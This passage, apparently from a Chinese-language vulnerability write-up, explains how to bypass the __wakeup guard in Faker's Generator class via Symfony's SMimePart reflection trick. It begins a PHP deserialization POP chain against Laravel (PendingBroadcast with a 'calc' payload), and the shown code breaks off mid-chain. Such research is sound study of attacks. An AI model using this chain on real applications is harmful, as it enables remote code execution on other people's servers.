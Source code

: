 针对上文提到的绕过思路, 需要寻找一些合适的`__wakeup`方法或者`__destruct`方法, 且最好存在如下类似的代码:

```php
$this->demo1 = $this->demo2;

$this->demo1[$this->demo2] = $this->demo3;
```

例如`Symfony\Component\Mime\Part\SMimePart.php`中的`__wakeup`方法, 其`$headers`属性继承自其父类 `AbstractPart`, `__wakeup`方法当中使用反射给`$headers`赋值.

<div align=center><img src="./images/16.png"></div>


```php
namespace Symfony\Component\Mime\Part;
use Symfony\Component\Mime\Header\Headers;
class SMimePart extends AbstractPart {

    public function __wakeup(): void {
        $r = new \ReflectionProperty(AbstractPart::class, 'headers');
        $r->setAccessible(true);
        $r->setValue($this, $this->_headers);
        unset($this->_headers);
    }
}

namespace Symfony\Component\Mime\Header;
class UnstructuredHeader extends AbstractHeader {
    
    private $value;
    public function setValue(string $value) {
        $this->value = $value;
    }
}
```

根据该绕过思路即可对`src/Faker/Generator.php`中的`__wakeup`方法进行绕过.

## POP Chain

```php
<?php

namespace Faker {
    class Generator {
        protected $providers = [];
        protected $formatters = [];
        function __construct() {
            $this->formatter = "dispatch";
            $this->formatters = 9999;
        }
    }
}

namespace Illuminate\Broadcasting {
    class PendingBroadcast {
        public function __construct() {
            $this->event = "calc";
```